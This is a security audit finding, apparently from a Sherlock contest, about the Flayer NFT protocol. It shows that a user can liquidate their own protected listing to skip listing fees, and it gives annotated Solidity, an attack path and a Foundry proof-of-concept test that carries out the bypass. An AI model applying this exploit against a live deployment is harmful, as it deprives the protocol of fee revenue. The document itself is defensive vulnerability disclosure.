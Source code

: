 Tiny Plastic Hyena

Medium

# A user could create a reserved listing and instantly liquidate it, bypassing the usual listing fees charged by the protocol

### Summary

The ability for a user to self liquidate without suffering any financial penalty will lead to the loss of fee revenue for the protocol, as well as a messy marketplace in which many floor quality NFTs are perpetually relisted in high priced Dutch auctions.

### Root Cause

In Listings.sol, the [creation of a liquidation listing](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/Listings.sol#L168-L207) bypasses listing fees. This is by design because ordinarily fees are payed up front by the seller and taken out of the fToken they initially receive.

However, this opens up the door for a way for users to bypass fees entirely if they are clever enough. In ProtectedListings.sol, liquidateProtectedListing() may be used on one's own listing. The only penalty for being liquidated is the 0.05 keeper fee which is deducted [here](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/ProtectedListings.sol#L464-L470). However, if a user self liquidates, they suffer no penalty at all and get the luxury of a tax free 4x floor price 4 day dutch auction.

```solidity
    function liquidateProtectedListing(address _collection, uint _tokenId) public lockerNotPaused listingExists(_collection, _tokenId) {
        ....
        // Keeper gets 0.05 as a reward for triggering the liquidation
            // @audit in the event of self liquidation, the 0.05 fTokens are given back to the user
@>      collectionToken.transfer(msg.sender, KEEPER_REWARD * 10 ** denomination);

        ...
        // Send the remaining tokens to {Locker} implementation as fees
        // @audit if the listing is for the maximum tokenTaken, no fees are taken from user here
@>      uint remainingCollateral = (1 ether - listing.tokenTaken - KEEPER_REWARD) * 10 ** denomination;
        if (remainingCollateral > 0) {
            IBaseImplementation implementation = locker.implementation();
            collectionToken.approve(address(implementation), remainingCollateral);
            implementation.depositFees(_collection, 0, remainingCollateral);
        }
```

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. User creates a protected listing and withdraws the maximum amount of fTokens allowed (0.95)
2. The very next block the user liquidates the listing
3. The asset is now listed at 4x the floor with no fees charged

### Impact

This could lead to a loss of revenue for the protocol given that it costs the attacker nothing to list their NFTs. Additionally, it could make the marketplace very messy, with mispriced NFTs dominating the active listings.

Ordinarily a 4 day dutch auction starting at 4x the floor price would cost the seller ~0.051 fTokens if allowed to run all the way down to zero. This is a relatively high amount of lost revenue.

### PoC

Please copy and paste the following into Listings.t.sol:
```solidity
function test_BypassTaxViaSelfLiquidation() public {

        address payable bypasserWallet = payable(makeAddr("bypasserWallet"));
        uint tokenId = 5;

        // Mint a mock erc to the bypasser
        erc721a.mint(bypasserWallet, tokenId);

        // The bypasser creates a protected listing and takes the maximum amount
        vm.startPrank(bypasserWallet);        

        erc721a.approve(address(protectedListings), tokenId);
        _createProtectedListing({
            _listing: IProtectedListings.CreateListing({
                collection: address(erc721a),
                tokenIds: _tokenIdToArray(5),
                listing: IProtectedListings.ProtectedListing({
                    owner: bypasserWallet,
                    tokenTaken: 0.95 ether,
                    checkpoint: 0
                })
            })
        });

        // wait one second, then liquidate
        vm.warp(block.timestamp + 1);
        protectedListings.liquidateProtectedListing(address(erc721a), 5);

        // wait 4 days for the end of the dutch auction - ordinarily this would rack up fees
        vm.warp(block.timestamp + 4 days);

        // a buyer purchases the asset
        address buyer = makeAddr("buyer");
        deal(address(locker.collectionToken(address(erc721a))), buyer, 1 ether);

        vm.startPrank(buyer);
        locker.collectionToken(address(erc721a)).approve(address(listings), type(uint).max);

        uint[][] memory tokenIdsOut = new uint[][](1);
        tokenIdsOut[0] = new uint[](1);
        tokenIdsOut[0][0] = tokenId;
        IListings.FillListingsParams memory fillParams = IListings.FillListingsParams({
                collection: address(erc721a),
                tokenIdsOut: tokenIdsOut
        });

        listings.fillListings(fillParams);

        // the bypasser suffers no tax and no liquidation penality        
        assertEq(locker.collectionToken(address(erc721a)).balanceOf(bypasserWallet), 1e18);
    }


```

If interested in the amount of funds lost for every such tax bypassing listed, paste this in Listings.t.sol as well:
```solidity
    function test_CostOfListing4X() public {

        address payable seller = payable(makeAddr("seller"));
        uint tokenId = 5;

        // Mint a mock erc to the bypasser
        erc721a.mint(seller, tokenId);

        vm.startPrank(seller);
        erc721a.approve(address(listings), tokenId);

        _createListing({
            _listing: IListings.CreateListing({
                collection: address(erc721a),
                tokenIds: _tokenIdToArray(tokenId),
                listing: IListings.Listing({
                    owner: seller,
                    created: uint40(block.timestamp),
                    duration: 4 days,
                    floorMultiple: 400
                })
            })
        });

        uint256 recieved = locker.collectionToken(address(erc721a)).balanceOf(seller);

        // cost of listing
        assertEq(1 ether - recieved, 51428571428571428);
    }
```

### Mitigation

Rather than using the _isLiquidation tag to bypass fee refunds, consider using it to charge fees before the user receives his or her share. This would eliminate any incentive for doing this.